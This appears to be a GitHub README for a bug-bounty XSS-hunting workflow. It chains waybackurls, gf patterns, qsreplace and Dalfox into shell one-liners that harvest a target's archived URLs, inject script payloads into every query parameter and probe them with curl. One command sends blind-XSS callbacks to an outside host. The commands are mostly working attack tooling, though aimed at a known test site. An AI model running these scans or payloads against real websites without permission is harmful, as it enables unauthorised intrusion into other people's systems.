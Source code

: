 # Automate XSS using Dalfox, WaybackURL, GF Patterns.

<b> Make sure you have Go installed on your Machine </b>

### To Install Go on your Machine:

```
  1) sudo apt install -y golang
  2) export GOROOT=/usr/lib/go
  3) export GOPATH=$HOME/go
  4) export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
  5) source .bashrc
```

## How to Hunt Blind XSS using Dalfox?

-   Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
-   Use GF patterns to find Possible XSS Vulnerable Parameters.
-   Use Dalfox to find XSS.

*   Steps :

```bash
waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
```

## How to Hunt Reflected XSS?

-   Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
-   Use qsreplace for Accept URLs on stdin, replace all query string values with a user-supplied value, only output each combination of query string parameters once per host and path.

*   Steps :

```bash
waybackurls testphp.vulnweb.com| grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

## Find the parameters which are not filtering special characters - One Liner

```bash
echo "test.url" | waybackurls | grep "=" | tee waybackurls.txt
cat waybackruls | egrep -iv ".(jpg|jpeg|js|css|gif|tif|tiff|png|woff|woff2|ico|pdf|svg|txt)" | qsreplace '"><()'| tee combinedfuzz.json && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "\"><()" && echo -e "$host \033[91m Vullnerable \e[0m \n" || echo -e "$host  \033[92m Not Vulnerable \e[0m \n"; done | tee XSS.txt
```

## Tools Download Links:-

-   1:- [Dalfox](https://github.com/hahwul/dalfox)
-   2:- [Waybackurls](https://github.com/tomnomnom/waybackurls)
-   3:- [GF](https://github.com/tomnomnom/gf)
-   4:- [GF Patterns](https://github.com/1ndianl33t/Gf-Patterns)
-   5:- [qsreplace](https://github.com/tomnomnom/qsreplace)

Find Script here : [QuickXSS](https://github.com/theinfosecguy/QuickXSS)

If you have any Questions, Reach out to me via [Twitter](https://twitter.com/g0t_rOoT_)

## Twitter : [Fani Malik](https://twitter.com/fanimalikhack)

## Twitter : [Faizee Asad](https://twitter.com/faizee_asad)

## Twitter : [Prince Prafull](https://twitter.com/princeprafull3)
